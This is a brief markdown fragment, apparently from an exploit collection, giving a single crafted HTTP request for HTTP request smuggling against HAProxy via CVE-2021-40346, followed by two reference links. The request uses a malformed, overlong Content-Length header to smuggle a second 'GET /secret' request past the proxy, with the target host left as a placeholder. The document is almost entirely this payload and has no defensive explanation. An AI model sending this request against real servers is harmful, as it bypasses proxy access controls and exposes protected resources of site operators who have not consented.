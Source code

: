 ### Single crafted HTTP requests
```
POST /index.html HTTP/1.1
Host: <rhost>
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: XX

GET /secret HTTP/1.1  
Host: <rhost>  
```

### References:
https://github.com/CHYbeta/OddProxyDemo/tree/master/haproxy/demo1  
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/  

